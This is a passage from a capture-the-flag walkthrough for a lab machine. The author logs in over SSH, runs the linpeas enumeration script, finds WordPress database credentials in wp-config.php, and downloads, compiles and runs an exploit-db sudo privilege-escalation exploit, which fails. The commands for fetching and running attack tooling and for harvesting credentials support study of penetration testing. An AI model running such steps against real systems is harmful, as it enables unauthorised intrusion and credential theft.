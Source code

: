 ## Aubreanna

So let's login via aubreanna: ```ssh aubreanna@10.10.156.30``` and we find the first flag (user.txt) in the home dir.

Unfortunately```sudo -l``` is not allowed

``` sh
aubreanna@internal:~$ sudo -l
[sudo] password for aubreanna:
Sorry, user aubreanna may not run sudo on internal.
aubreanna@internal:~$ id
uid=1000(aubreanna) gid=1000(aubreanna) groups=1000(aubreanna),4(adm),24(cdrom),30(dip),46(plugdev)
```

Let's try running linpeas on the system to find something interesting:

From the Kali system

``` sh
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
scp linpeas.sh aubreanna@10.10.156.30:~/linpeas.sh
```

On the target machine as aubreanna:

``` sh
chmod +x linpeas.sh
./linpeas.sh
```

Interessting finds are the mysqladmin credentials:

```log
╔══════════╣ Analizing Wordpress Files (limit 70)
-rw-r--r-- 1 root root 3109 Aug  3  2020 /var/www/html/wordpress/wp-config.php
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'wordpress123' );
define( 'DB_HOST', 'localhost' );
```

We also see we have Sudo running in version```1.8.21``` and a check with searchsploit```searchsploit sudo``` reveals a vulnerability to```1.8.20``` "Sudo 1.8.20 - 'get_process_ttyname()' Local Privilege Escalation", but no luck running the [exploit](https://www.exploit-db.com/raw/42183).

@Kali

``` sh
wget -O exploit.c https://www.exploit-db.com/raw/42183
gcc -o exploit exploit.c
scp exploit aubreanna@10.10.156.30:~/exploit
```

@aubreanna@internal

``` sh
chmod +x exploit
./exploit
died in main: 57
```
